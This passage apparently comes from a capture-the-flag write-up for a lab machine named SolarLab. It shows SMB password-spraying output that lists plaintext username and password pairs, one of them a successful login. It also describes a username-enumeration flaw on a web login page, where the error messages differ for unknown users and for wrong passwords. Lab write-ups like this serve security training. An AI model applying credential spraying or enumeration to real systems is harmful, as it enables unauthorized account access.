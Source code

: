 ```bash
SMB         10.129.171.222  445    SOLARLAB         [+] solarlab\blake:ThisCanB3typedeasily1@
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\openfire:ThisCanB3typedeasily1@ STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\Administrator:danenacia9234n STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\Guest:danenacia9234n STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\openfire:danenacia9234n STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\Administrator:dadsfawe9dafkn STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\Guest:dadsfawe9dafkn STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\openfire:dadsfawe9dafkn STATUS_LOGON_FAILURE
```

### 6791 - Report Hub : Username enumeration (WSTG-IDNT-04)

> http://report.solarlab.htb:6791/login

- The login response will show either `User not found` or `User authentication error.`

![](/assets/obsidian/4246d683afa80ad06e4977613bbb7011.png)

![](/assets/obsidian/9e5a3e2b5f47c14837ba2cef1a226e0f.png)
